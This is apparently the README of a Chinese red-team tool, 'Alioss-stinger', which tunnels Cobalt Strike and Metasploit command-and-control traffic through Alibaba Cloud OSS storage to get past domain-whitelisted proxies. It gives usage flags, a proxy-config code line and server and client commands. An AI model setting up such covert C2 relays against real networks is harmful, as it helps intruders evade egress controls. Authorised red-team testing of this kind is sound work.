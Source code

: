 # Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：

![image-20221214185423368](README.assets/image-20221214185423368.png)

### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

![image-20221214185022534](README.assets/image-20221214185022534.png)

# 阿里云安全配置
参考：https://www.yuque.com/pant0m

